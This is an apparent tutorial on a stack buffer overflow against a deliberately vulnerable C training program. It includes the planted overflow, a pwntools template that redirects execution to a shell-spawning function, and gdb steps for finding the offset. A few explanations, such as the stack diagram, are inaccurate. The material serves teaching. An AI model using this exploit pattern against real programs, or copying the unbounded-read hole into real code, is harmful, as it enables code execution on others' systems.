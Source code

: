 * Code:
```c
#include <stdio.h>
#include <stdlib.h>

void getName(){
	char name[15] = {0}; // !! Our buffer is only 15 characters... but: !!


	printf("What's your name? ");
	fgets(name, 100, stdin); // !! We are reading 100 characters despite only being able to store 15 characters !!
	printf("Cool name %s!", name);

}


void main(){
	getName();
}

void openShell(){
	system("/bin/sh");
}

```
* Decompiling in Ghidra, we get the following code for all the user defined functions:
```c
void getName(void){
  undefined8 local_17;
  undefined4 local_f;
  undefined2 local_b;
  undefined local_9;
  
  local_17 = 0;
  local_f = 0;
  local_b = 0;
  local_9 = 0;
  printf("What\'s your name? ");
  fgets((char *)&local_17,100,stdin);
  printf("Cool name %s!",&local_17);
  return;
}

void main(void){
  getName();
  return;
}


void openShell(void){
  system("/bin/sh");
  return;
}
```
* Take note that the `getName` function is calling `fgets` and taking in 100 characters, while our buffer is only of size 15.
	* Technically, this limits how much we can overwrite the stack (while `gets` would let us write as much as we want, but 100 bytes should be enough for what we want.

* Stack:
```
---------------------------
|   main Return Address   | ↓️  
---------------------------
|     main Saved RBP      | ↓
---------------------------
| getName Return Address  | ↓
---------------------------
|   getName Saved RBP     | ↓
---------------------------
| getName 'name' Variable | ↓
---------------------------
| openShell Return Address| ↓
---------------------------
|   openShell Saved RBP   | ↓
---------------------------
```
* Notice the stack grow downwards
	* Every stack frame always starts with the return address, then the frame pointer
	* The return address is where the computer goes at the end of the function


* First, we want to be able to make the program crash. If we can do that, we can make it crash how we want to make the program do something malicious.

# Writing the exploit
### Boilerplate exploit code
```python3
from pwn import *
p = process('./program.elf')
e = ELF('./program.elf')

offset = rip - locationOfInput
addressToJumpTo = p64(e.symbols['openShell']) # p32 or p64 is based on if it is a 32 or 64 bit program. use `file` or `checksec` on binary to check

payload = b''
payload += b'A'*offset
payload += addressToJumpTo


p.sendline(payload)
p.interactive()
```

### Exploit process
* Preface: I highly suggest having [gef](https://gef.readthedocs.io/en/master/) installed for this. I will be using it.

1. Run `gdb buf1` to start the binary in a dynamic debugger
2. Run `disas main` to look at the main function to get the following output:
```bash
Dump of assembler code for function main:
   0x00000000004011a7 <+0>:	push   rbp
   0x00000000004011a8 <+1>:	mov    rbp,rsp
   0x00000000004011ab <+4>:	mov    eax,0x0
   0x00000000004011b0 <+9>:	call   0x401142 <getName>
   0x00000000004011b5 <+14>:	mov    eax,0x0
   0x00000000004011ba <+19>:	pop    rbp
   0x00000000004011bb <+20>:	ret    
End of assembler dump.

```
	* Here, we can see on offset <+9> from the main, there is a call to func `getName`
3. Disassemble `getName` with `disas getName` to get the following output:
```bash
Dump of assembler code for function getName:
   0x0000000000401142 <+0>:	push   rbp
   0x0000000000401143 <+1>:	mov    rbp,rsp
   0x0000000000401146 <+4>:	sub    rsp,0x10
   0x000000000040114a <+8>:	mov    QWORD PTR [rbp-0xf],0x0
   0x0000000000401152 <+16>:	mov    DWORD PTR [rbp-0x7],0x0
   0x0000000000401159 <+23>:	mov    WORD PTR [rbp-0x3],0x0
   0x000000000040115f <+29>:	mov    BYTE PTR [rbp-0x1],0x0
   0x0000000000401163 <+33>:	lea    rdi,[rip+0xe9a]        # 0x402004
   0x000000000040116a <+40>:	mov    eax,0x0
   0x000000000040116f <+45>:	call   0x401040 <printf@plt>
   0x0000000000401174 <+50>:	mov    rdx,QWORD PTR [rip+0x2ec5]        # 0x404040 <stdin@GLIBC_2.2.5>
   0x000000000040117b <+57>:	lea    rax,[rbp-0xf]
   0x000000000040117f <+61>:	mov    esi,0x64
   0x0000000000401184 <+66>:	mov    rdi,rax
   0x0000000000401187 <+69>:	call   0x401050 <fgets@plt>
   0x000000000040118c <+74>:	lea    rax,[rbp-0xf]
   0x0000000000401190 <+78>:	mov    rsi,rax
   0x0000000000401193 <+81>:	lea    rdi,[rip+0xe7d]        # 0x402017
   0x000000000040119a <+88>:	mov    eax,0x0
   0x000000000040119f <+93>:	call   0x401040 <printf@plt>
   0x00000000004011a4 <+98>:	nop
   0x00000000004011a5 <+99>:	leave  
   0x00000000004011a6 <+100>:	ret    
End of assembler dump.
```
4. Look for where we input into the buffer. We can see that it is calling `fgets` at offset <+69> from the main
5. We want to break immediately after the input to inspect the stack, so we can set a breakpoint at the offset right after the input with `b *getName + 74`
6. Run the binary in gdb with `r`
7. Input an 8-byte string. Typically we use all uppercase As, so I'm using `AAAAAAAA`
	* This should trigger our breakpoint
8. Now, we have to inspect the stack. We can first find the location of our input with `search-pattern AAAAAAAA`
	* This gives us the following:
```bash
[+] Searching 'AAAAAAAA' in memory
[+] In '[heap]'(0x405000-0x426000), permission=rw-
  0x4056b0 - 0x4056b8  →   "AAAAAAAA" 
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffdfd1 - 0x7fffffffdfd9  →   "AAAAAAAA" 
```
* The start of the address of the string is `0x7fffffffdfd1` 


9. We can run `i f` to look at information on the current frame. We get the following:
```bash
Stack level 0, frame at 0x7fffffffdff0:
 rip = 0x40118c in getName; saved rip = 0x4011b5
 called by frame at 0x7fffffffe000
 Arglist at 0x7fffffffdfe0, args: 
 Locals at 0x7fffffffdfe0, Previous frame's sp is 0x7fffffffdff0
 Saved registers:
  rbp at 0x7fffffffdfe0, rip at 0x7fffffffdfe8
```
	* The rip is at `0x7fffffffdfe8`
10. We can get our offset by subtracting these: `0x7fffffffdfe8 - 0x7fffffffdfd1`, which is 23 bytes

